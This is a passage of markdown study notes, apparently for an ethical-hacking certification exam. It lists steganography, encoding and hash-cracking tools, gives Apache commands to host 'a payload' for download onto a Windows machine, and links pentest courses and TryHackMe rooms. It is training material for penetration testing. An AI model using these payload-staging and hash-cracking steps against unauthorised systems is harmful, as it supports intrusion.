  ## VeraCrypt 

  
  <img src = "/IMG/VeraCrypt/VC1.png"/>
  <img src = "/IMG/VeraCrypt/VC2.png"/>
  <img src = "/IMG/VeraCrypt/VC3.png"/>
  <img src = "/IMG/VeraCrypt/VC4.png"/>
  <img src = "/IMG/VeraCrypt/VC5.png"/>
  <img src = "/IMG/VeraCrypt/VC6.png"/>
  <img src = "/IMG/VeraCrypt/VC7.png"/>
  <img src = "/IMG/VeraCrypt/VC8.png"/>
  <img src = "/IMG/VeraCrypt/VC9.png"/>
  <img src = "/IMG/VeraCrypt/VC10.png"/>
  <img src = "/IMG/VeraCrypt/VC11.png"/>
  <img src = "/IMG/VeraCrypt/VC12.png"/>
  <img src = "/IMG/VeraCrypt/VC13.png"/>
  <img src = "/IMG/VeraCrypt/VC14.png"/>
  <img src = "/IMG/VeraCrypt/VC15.png"/>
  <img src = "/IMG/VeraCrypt/VC16.png"/>
  <img src = "/IMG/VeraCrypt/VC17.png"/>
  <img src = "/IMG/VeraCrypt/VC18.png"/>
  
</details> 

<details>
    <summary>BCTextEncoded</summary>
  
  ## BCTextEncoded
    
  <img src = "/IMG/BCTextEncoded/BCTE1.png"/>
    
  <img src = "/IMG/BCTextEncoded/BCTE2.png"/>
    
  <img src = "/IMG/BCTextEncoded/BCTE3.png"/>
    
  <img src = "/IMG/BCTextEncoded/BCTE4.png"/>
    
  <img src = "/IMG/BCTextEncoded/BCTE5.png"/>

  <img src = "/IMG/BCTextEncoded/BCTE6.png"/>


</details>
<details>
  <summary>online hash Links</summary>
  
## hash.com Link
* [hash.com](https://hashes.com/en/decrypt/hash) is a online hash Identifier and Cracker 
</details>

<details>
    <summary>Keywords</summary>
  
  ## Keywords
  
  
  * Img hidden      - Openstego
  * .hex            - Cryptool
  * Whitespace      - SNOW
  * MD5             - Hashcalc & MD5 Calculator
  * Encoded         - BCTexteditor
  * Volume & mount  - Veracrypt

</details>

# File Transfer
<details>
  <summary>File Transfer</summary>
  
## File Transfer

### Linux to Windows
* used to send a payload by Apache 
```console
mkdir /var/www/html/share
chmod -R 755 /var/www/html/share
chown -R www-data:www-data /var/www/html/share
cp /root/Desktop/filename /var/www/html/share/
  ```
  * to start and verify
  ```console
  service apache2 start 
  service apache2 status
  ```
  * to Download from Windows
  * Open browser 
  ```shell
  IP_OF_LINUX/share
  ```
### Windows to Linux 
* File system > Network > smb///IP_OF_WINDOWS
</details>


# Resource
<details>
  <summary>Course</summary>

  ## Course
  
* [Penetration Testing Student - PTS ](https://my.ine.com/CyberSecurity/learning-paths/a223968e-3a74-45ed-884d-2d16760b8bbd/penetration-testing-student) from [INE](https://my.ine.com/)
* [Practical Ethical Hacking - PEH ](https://academy.tcm-sec.com/p/practical-ethical-hacking-the-complete-course) from [TCM Security](https://tcm-sec.com/)
* [iLab](https://ilabs.eccouncil.org/ethical-hacking-exercises/) CEH (Practical) Official Lab from [EC-Council](https://www.eccouncil.org/)
* [Youtube free iLab ](https://www.youtube.com/watch?v=9g5gdhoDotg&list=PLWGnVet-gN_kGHSHbWbeI0gtfYx3PnDZO)

</details>
<details>
  <summary>TryHackMe</summary>

## TryHackMe
### Learning Path
* [Pre-Security](https://tryhackme.com/paths) 
* [Jr Penetration Tester](https://tryhackme.com/paths)
* [Complete Beginner](https://tryhackme.com/paths) 
### Rooms
* [Linux](https://tryhackme.com/module/linux-fundamentals)
* [Nmap](https://tryhackme.com/room/furthernmap)
* [SQLMAP](https://tryhackme.com/room/sqlmap)
* [hark](https://tryhackme.com/room/wireshark)
* [Hydra](https://tryhackme.com/room/hydra)
* [DVWA](https://tryhackme.com/room/dvwa)
* [OWASP Top 10](https://tryhackme.com/room/owasptop10)

  
</details>  






